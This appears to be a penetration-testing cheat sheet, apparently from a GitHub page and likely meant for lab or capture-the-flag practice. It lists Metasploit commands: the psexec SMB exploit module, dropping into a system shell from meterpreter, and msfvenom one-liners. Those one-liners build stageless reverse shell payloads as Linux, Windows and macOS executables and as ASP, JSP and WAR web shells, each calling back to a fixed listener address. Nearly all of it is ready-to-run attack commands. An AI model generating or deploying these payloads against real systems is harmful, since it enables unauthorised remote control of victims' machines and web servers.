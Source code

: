 ## Metasploit exploit module that can be used on vulnerable Windows system to establish a shell session utilizing `smb` & `psexec`
```
use exploit/windows/smb/psexec
```

## Command used in a meterpreter shell session to drop into a `system shell`
```
shell
```

## `MSFvenom` command used to generate a linux-based reverse shell `stageless payload`
```
msfvenom -p linux/x64/shell_reverse_tcp LHOST=10.10.14.113 LPORT=443 -f elf > nameoffile.elf
```

## MSFvenom command used to generate a Windows-based reverse shell stageless payload
```
msfvenom -p windows/shell_reverse_tcp LHOST=10.10.14.113 LPORT=443 -f exe > nameoffile.exe
```

## MSFvenom command used to generate a MacOS-based reverse shell payload
```
msfvenom -p osx/x86/shell_reverse_tcp LHOST=10.10.14.113 LPORT=443 -f macho > nameoffile.macho
```

## MSFvenom command used to generate a ASP web reverse shell payload
```
msfvenom -p windows/meterpreter/reverse_tcp LHOST=10.10.14.113 LPORT=443 -f asp > nameoffile.asp
```

## MSFvenom command used to generate a JSP web reverse shell payload
```
msfvenom -p java/jsp_shell_reverse_tcp LHOST=10.10.14.113 LPORT=443 -f raw > nameoffile.jsp
```

## MSFvenom command used to generate a WAR java/jsp compatible web reverse shell payload
```
msfvenom -p java/jsp_shell_reverse_tcp LHOST=10.10.14.113 LPORT=443 -f war > nameoffile.war
```
